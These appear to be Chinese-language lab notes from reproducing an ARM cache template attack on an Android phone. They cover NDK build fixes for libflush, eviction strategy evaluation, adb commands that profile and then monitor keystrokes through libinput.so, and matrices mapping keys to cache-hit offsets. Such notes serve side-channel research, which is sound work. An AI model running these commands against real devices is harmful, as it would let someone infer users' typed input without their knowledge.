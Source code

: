 # 一些操作
向`/opt/android/ndk/toolchains/arm-linux-androideabi-4.9/prebuilt/linux-x86_64/lib/gcc/arm-linux-androideabi/4.9.x/include`文件夹中移动了`/libflush/libflush/armv7`文件夹以解决
```bash
 [CC] cache_template_attack/calibrate.c
cache_template_attack/calibrate.c:5:31: fatal error: libflush/libflush.h: No such file or directory
 #include <libflush/libflush.h>
                               ^
compilation terminated.
```
问题

在编译`cache_template_attack`的时候，删除上面添加的`.so.*`动态链接库，可以获得加入静态库可以直接在手机中执行的程序版本。

在编译libflush的时候在命令行中添加`DESTDIR`参数来安装库到制定的文件夹
```sh
make DESTDIR=/opt/android/ndk/platforms/android-23/arch-arm/ install
```

通过`cat /system/build.prop | grep product`来获得系统芯片信息。


```sh
eviction_strategy_evaluator -c conf.yml -x cancro.yml run_strategies -e 30 -a 10 -d 10 -n 10000
```

run_stategies时不用连接手机
命令为
```sh
eviction_strategy_evaluator -c conf.yml -x cancro.yml evaluate_strategies /home/larry/Documents/cancro -t 95
```


获得数据的命令行为
```sh
adb shell /data/local/tmp/input-simulator -r -1 -d 1 s &

adb shell /data/local/tmp/cache_template_attack -c 0 -r b6b19000-b6b33000 -o 000000000 -f 1 /system/lib/libinput.so -l /data/local/tmp/log/s.log

adb shell kill 'adb shell ps | grep input-simulator | grep input-simulator | awk '{print $2}'| head -1'
```
监测用户输入数据的命令为

```sh
adb shell /data/local/tmp/cache_template_attack -s -c 0 -r b6b19000-b6b33000 -o 00006480 -f 1 /system/lib/libinput.so -l /data/local/tmp/log/test.log
```


从Hits频率分布结果
```
10     0.641318
11     0.662311
12     0.682751
13     0.702702
14     0.722265
15     0.741618
16     0.760365
17     0.778456
18     0.795565
19     0.811666
20     0.826513
21     0.840285
22     0.852823
23     0.864393
24     0.874818
25     0.884254
26     0.892739
27     0.900445
28     0.907511
29     0.914031
```
可以看出大约80%的Hits结果分布在[0,20]的范围内，90%分布在[0,30]范围内，所以可选择将20或者30最为一个阈值对结果进行分析



## 矩阵生成算法

初期通过人工选择得到的地址为
```
0x27c0
0xe480
0x1f00
0x1b80
0x10980
0x15c0
0x15680
0x18580
```

通过算法得到的地址为

```
0xcd80
0x15680
0x17540
0x13900
0xcc40
0x27c0
```
分布矩阵为
```
Offset     0xcd80  0x15680  0x17540  0x13900  0xcc40  0x27c0
a               1        0        0        1       1       1
b               2        3        3        3       2       1
backspace       0        1        0        1       1       1
c               1        3        3        1       0       1
d               1        0        0        1       0       1
e               0        3        0        1       0       1
enter           2        3        3        3       1       1
f               3        1        0        3       1       1
g               0        0        3        3       3       1
h               2        3        0        1       1       1
i               0        1        1        1       1       1
j               3        2        0        3       1       1
k               1        3        3        1       3       1
l               3        1        0        0       1       1
m               1        0        0        0       1       1
n               3        0        1        1       1       1
none            1        0        1        1       0       1
o               0        0        0        0       0       1
p               1        0        0        3       1       1
q               3        1        0        3       0       1
r               3        3        1        1       3       1
s               1        0        0        1       3       0
space           3        0        3        1       1       1
t               0        0        0        0       0       0
u               0        1        3        0       1       1
v               3        0        0        2       1       1
w               0        0        0        1       3       1
x               0        0        2        1       3       1
y               3        0        0        1       1       1
z               0        0        1        1       1       1
```